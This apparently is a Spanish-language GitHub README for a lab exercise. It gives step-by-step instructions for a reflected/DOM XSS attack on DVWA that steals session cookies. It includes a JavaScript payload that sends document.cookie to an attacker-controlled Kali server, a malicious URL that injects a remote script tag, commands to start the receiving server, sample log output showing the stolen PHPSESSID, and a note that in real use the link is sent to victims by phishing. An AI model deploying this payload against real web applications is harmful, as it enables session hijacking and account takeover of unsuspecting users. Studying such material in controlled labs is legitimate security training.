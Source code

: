 # Explotación XSS Nivel Bajo para Robo de Cookies

Este repositorio contiene los archivos y la descripción del proceso para realizar una explotación Cross-Site Scripting (XSS) de nivel bajo con el objetivo de robar la cookie de sesión de un usuario en una aplicación web vulnerable (como DVWA configurada en nivel de seguridad bajo).

**Advertencia:** Esta información se proporciona únicamente con fines educativos y de prueba de penetración en entornos controlados. El uso de estas técnicas sin el consentimiento adecuado es ilegal y éticamente inaceptable.

## Herramientas Necesarias

* Un navegador web.
* La dirección IP de tu máquina Kali Linux (o la máquina donde se ejecutará el servidor web temporal).
* Un servidor web temporal ejecutándose en Kali Linux.

## Pasos para la Explotación

1.  **Levantar un Servidor Web Temporal en Kali Linux:**

    Abre una terminal en tu máquina Kali Linux y ejecuta el siguiente comando para iniciar un servidor web simple en el puerto 9999:

    ```bash
    python -m SimpleHTTPServer 9999
    ```

    (Para Python 3, el comando sería:)

    ```bash
    python3 -m http.server 9999
    ```

    Mantén esta terminal abierta para observar las peticiones entrantes.

2.  **Crear el Archivo `a.js` (Payload Remoto):**

    Crea un nuevo archivo de texto llamado `a.js` en el directorio donde iniciaste el servidor web temporal. Pega el siguiente código JavaScript dentro del archivo, **reemplazando `[tu_IP_de_Kali]` con la dirección IP real de tu máquina Kali Linux**:

    ```javascript
    function getimg() {
      var img = document.createElement('img');
      img.src = 'http://[tu_IP_de_Kali]:9999/' + document.cookie;
      document.body.appendChild(img);
    }

    getimg();
    ```

    Guarda los cambios en el archivo `a.js`.

3.  **Construir la URL Maliciosa:**

    Construye la URL que contiene el exploit XSS. Utiliza la siguiente estructura, **reemplazando `[tu_IP_de_Kali]` con la dirección IP de tu Kali Linux**:

    ```
    http://dvwa/dvwa/vulnerabilities/xss_d/?default=<script src="http://[tu_IP_de_Kali]:9999/a.js"></script>
    ```

    **Nota:** Asumimos que la aplicación web vulnerable es DVWA y la vulnerabilidad XSS se encuentra en la página `xss_d` con el parámetro `default`. Ajusta la URL según la aplicación y la vulnerabilidad específica.

4.  **Enviar la URL Maliciosa a la Víctima:**

    En un escenario real, esta URL se enviaría a la víctima mediante técnicas de ingeniería social (phishing, enlaces maliciosos, etc.). Para probarlo en tu entorno DVWA, simplemente pega la URL construida en la barra de direcciones de tu navegador mientras estás logueado en DVWA y presiona Enter.

5.  **Verificar los Logs del Servidor Web Temporal:**

    Regresa a la terminal donde está corriendo el servidor web temporal en Kali Linux. Deberías ver una o varias peticiones registradas. Busca una línea similar a la siguiente (la información de la cookie variará):

    ```
    127.0.0.1 - - [DD/Mon/YYYY HH:MM:SS] "GET /PHPSESSID=alguna_sesion; security=low HTTP/1.1" 404 -
    ```

    La parte importante es `PHPSESSID=alguna_sesion; security=low`. Esta es la cookie de sesión del usuario víctima que ha sido robada. El código de respuesta `404` es esperado porque estamos solicitando una "imagen" cuyo nombre es la cookie, y ese archivo no existe en nuestro servidor. Lo crucial es que la petición con la cookie llegó al servidor.

## Explicación del Proceso

1.  Cuando la víctima accede a la URL maliciosa, el navegador interpreta el código HTML.
2.  La etiqueta `<script src="...">` fuerza al navegador a solicitar el archivo `a.js` desde el servidor web temporal en Kali Linux.
3.  El servidor web temporal sirve el contenido del archivo `a.js`.
4.  El código JavaScript dentro de `a.js` se ejecuta en el navegador de la víctima.
5.  La función `getimg()` crea un nuevo elemento `<img>`.
6.  La propiedad `src` de esta imagen se establece a una URL que apunta al servidor web temporal en Kali Linux, y la ruta de la "imagen" es el valor de la cookie del documento (`document.cookie`).
7.  El navegador de la víctima intenta cargar esta "imagen" desde el servidor.
8.  La petición HTTP enviada al servidor web temporal incluye la cookie de la víctima en la URL de la petición GET.
9.  El servidor web temporal registra esta petición en sus logs, revelando la cookie robada al atacante.

## Contribución

Las contribuciones a este repositorio con fines educativos y de mejora de la documentación son bienvenidas. Por favor, asegúrate de que cualquier contribución se realice de manera ética y responsable.

## Licencia

Este proyecto se distribuye bajo la Licencia MIT. Consulta el archivo `LICENSE` para obtener más detalles.